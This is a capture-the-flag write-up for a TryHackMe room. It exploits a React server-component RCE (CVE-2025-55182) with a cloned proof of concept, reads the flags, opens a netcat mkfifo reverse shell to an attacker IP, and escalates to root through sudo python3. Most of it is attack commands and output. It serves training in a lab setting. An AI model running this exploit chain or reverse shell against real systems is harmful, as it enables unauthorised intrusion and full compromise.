

---

Name: Corp Website
Difficulty: Medium
URL: https://tryhackme.com/room/lafb2026e7

---

# Solution
Inspecting the page source reveals this HTML comments
```HTML
<!--3WpzTMYEK9QGOeqIBQxrR-->
<!--$--><!--/$-->
```

<!--TODO explain why they were generated-->

Search results for that string show exploits for a CVE found in react. I decided to choose one of them and use it against the server
```bash
git clone https://github.com/0xBlackash/CVE-2025-55182.git
```

It worked and it gave RCE, now getting the flag is trivial
```bash
python3 react2shell_poc.py http://corp.thm:3000 --cmd "whoami"
Non-JSON response. Raw:
0:{"a":"$@1","f":"","b":"3WpzTMYEK9QGOeqIBQxrR"}
1:E{"digest":"daniel"}


python3 react2shell_poc.py http://corp.thm:3000 --cmd "id"
Non-JSON response. Raw:
0:{"a":"$@1","f":"","b":"3WpzTMYEK9QGOeqIBQxrR"}
1:E{"digest":"uid=100(daniel) gid=101(secgroup) groups=101(secgroup),101(secgroup)"}


python3 react2shell_poc.py http://corp.thm:3000 --cmd "ls"
Non-JSON response. Raw:
0:{"a":"$@1","f":"","b":"3WpzTMYEK9QGOeqIBQxrR"}
1:E{"digest":"Dockerfile\napp\ncomponents\ndocker-compose.yml\nexploit.py\nlib\nnext-env.d.ts\nnext.config.js\nnode_modules\npackage-lock.json\npackage.json\npostcss.config.js\npublic\ntailwind.config.js\ntsconfig.json"}


python3 react2shell_poc.py http://corp.thm:3000 --cmd "ls /home"
Non-JSON response. Raw:
0:{"a":"$@1","f":"","b":"3WpzTMYEK9QGOeqIBQxrR"}
1:E{"digest":"daniel\nnode"}


python3 react2shell_poc.py http://corp.thm:3000 --cmd "ls /home/daniel"
Non-JSON response. Raw:
0:{"a":"$@1","f":"","b":"3WpzTMYEK9QGOeqIBQxrR"}
1:E{"digest":"user.txt"}


python3 react2shell_poc.py http://corp.thm:3000 --cmd "cat /home/daniel/user.txt"
Non-JSON response. Raw:
0:{"a":"$@1","f":"","b":"3WpzTMYEK9QGOeqIBQxrR"}
1:E{"digest":"THM{REDACTED}"}
```

Lets see what we can run with sudo
```bash
python3 react2shell_poc.py http://corp.thm:3000 --cmd "sudo -l"
Non-JSON response. Raw:
0:{"a":"$@1","f":"","b":"3WpzTMYEK9QGOeqIBQxrR"}
1:E{"digest":"Matching Defaults entries for daniel on romance:\n   \n    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\n\nRunas and Command-specific defaults for daniel:\n    Defaults!/usr/sbin/visudo env_keep+=\"SUDO_EDITOR EDITOR VISUAL\"\n\nUser daniel may run the following commands on romance:\n    (root) NOPASSWD: /usr/bin/python3"}
```

First we have to get a revshell, we generate the payload with [revshells](https://www.revshells.com/) 



```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.113.153.220 4444 >/tmp/f
```

And start a listener
```bash
nc -lvnp 4444
```

Now we can use /usr/bin/python3 to gain a shell as root
```bash
/app $ sudo /usr/bin/python3 -c 'import os; os.execl("/bin/sh", "sh")'
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
cd /root
ls
root.txt
cat root.txt
THM{REDACTED}
```
